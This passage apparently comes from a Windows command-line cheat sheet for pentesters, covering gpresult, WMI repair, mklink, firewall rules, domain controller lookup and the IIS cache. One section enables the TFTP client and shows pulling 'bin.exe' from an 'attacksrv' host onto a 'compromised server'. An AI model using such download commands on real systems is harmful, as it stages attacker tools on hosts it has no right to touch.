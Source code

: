 **Very useful during pentests**

```
C:\> gpresult /z /h outputfile.html
```

#### Reset the WMI repository to what it was when the OS was installed

**Very helpful if you have a corrupt repo**

```
C:\> winmgmt /resetrepository
```

#### Create symbolic links in Windows Vista, 7 & higher

```
C:\> mklink <link> <target>
C:\> mklink D:\newlink.txt E:\thisexists.txt
```

#### Enable the tftp client in Vista & higher

```
C:\> ocsetup TFTP /quiet
```

Pull files to a `compromised server`:

```
C:\> tftp -i attacksrv get bin.exe
```

#### Obtain list of firewall rules on a local system

```
C:\> netsh advfi fi sh rule name=all
```

**Can be combined with wmic for remote systems**

#### Get name of current domain controller

```
C:\> set log
C:\> nltest /dcname:DOMAIN
```

Get list of all DCs:

```
C:\> nltest /dclist:DOMAIN
```

#### Look at content cached in kernel mode on IIS 7 and higher

```
C:\> netsh http sh ca
```
